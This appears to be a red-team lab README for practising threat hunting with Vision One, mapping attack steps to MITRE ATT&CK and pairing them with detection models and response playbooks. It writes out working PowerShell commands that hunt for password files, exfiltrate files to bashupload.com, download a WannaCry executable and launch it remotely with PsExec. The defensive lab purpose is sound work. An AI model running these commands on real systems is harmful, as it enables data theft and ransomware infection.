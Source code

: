 # Tools-Red-Team
Threat Hunting using Vision One

Herramientas para evaluar un posible ataque Ransomware

4.1. Current User (T1033)	whoami

4.2. Find System Network Connections (T1049)	netstat -anto; Get-NetTCPConnection

4.3. Network Service Scanning (T1046)	Multiple computers within the network have exposed services on

4.4. View remote shares (T1135)	net view \\10.0.10.12 /all

4.5. Find files (T1005)	Get-ChildItem C:\ -Recurse -Include confidential.* -ErrorAction 'SilentlyContinue' | foreach {$_.FullName} | Select-Object -first 5
	Get-ChildItem C:\ -Recurse -Include password.* -ErrorAction 'SilentlyContinue' | foreach {$_.FullName} | Select-Object -first 5
 
4.6. Manual Command - (T1059)	Get-Content -Path  c:\confidential\confidential.txt

4.7. Net use (T1021.002)	net use \\10.0.10.12\confidential /user:trendmicro trendmicro;

4.8. Manual Command (T1083)	Get-ChildItem -Path \\10.0.10.12\confidential

4.9. Manual Command "Data Exfiltration" (T1041, T1055, T1572)	Invoke-WebRequest -Uri https://bashupload.com -Method Post -ContentType multipart/form-data -Body \\10.0.10.12\confidential\confidential.txt
	Invoke-WebRequest -Uri https://bashupload.com -Method Post -ContentType multipart/form-data -Body \\10.0.10.12\confidential\Passwords.txt

4.10. Manual Command Dropping a 0-day Ransomware! (T1486)	Invoke-WebRequest -Uri "https://download.sysinternals.com/files/PSTools.zip" -OutFile "C:\Users\Public\PSTools.zip"; Expand-Archive -Path "C:\Users\Public\PSTools.zip" -DestinationPath "C:\Users\Public\";
	Invoke-WebRequest -Uri https://github.com/limiteci/WannaCry/raw/main/WannaCry.EXE -OutFile \\10.0.10.12\confidential\wcry.exe;
	CMD: C:\Users\Public\PsExec.exe -s -accepteula \\10.0.10.12 -u trendmicro -p trendmicro C:\confidential\wcry.exe
 
5.1. Custom Detection Model - Network and using PowerShell	Create Custom Detection Model: Network and using PowerShell

5.2. Custom Detection Model -  Sensitive data using PowerShell	Detecting an individual trying to upload: Sensitive data using PowerShell

5.3. Custom Detection Model - Ransomware Activity	Detecting Ransomware Activity (Compromised computer)

6.1. Security Playbook - Network Scan using Powershell	Detecting AND STOPPING an individual trying to scan for active computers on a network and using PowerShell scripts - Related to Lab 4.3

6.2. Security Playbooks - Sensitive Data Exfiltration	Detecting AND STOPPING an individual trying to upload sensitive data using PowerShell or other scripts - Related to Lab 4.9.

6.3. Security Playbooks - Ransomware Activity	Detecting and ISOLATING a compromised computer that was the victim of a Ransomware attack - Related to Lab 4.10

6.4 Automated Response - Security Playbook - Sensitive Data Exfiltration	"Run the following command using Caldera / Manual Command:

Invoke-WebRequest -Uri https://bashupload.com -Method Post -ContentType multipart/form-data -Body \\10.0.10.12\confidential\confidential.txt"
	Invoke-WebRequest -Uri "https://download.sysinternals.com/files/PSTools.zip" -OutFile "C:\Users\Public\PSTools.zip"; Expand-Archive -Path "C:\Users\Public\PSTools.zip" -DestinationPath "C:\Users\Public\";
	Invoke-WebRequest -Uri https://github.com/limiteci/WannaCry/raw/main/WannaCry.EXE -OutFile \\10.0.10.12\confidential\wcry.exe;
	CMD: C:\Users\Public\PsExec.exe -s -accepteula \\10.0.10.12 -u trendmicro -p trendmicro C:\confidential\wcry.exe


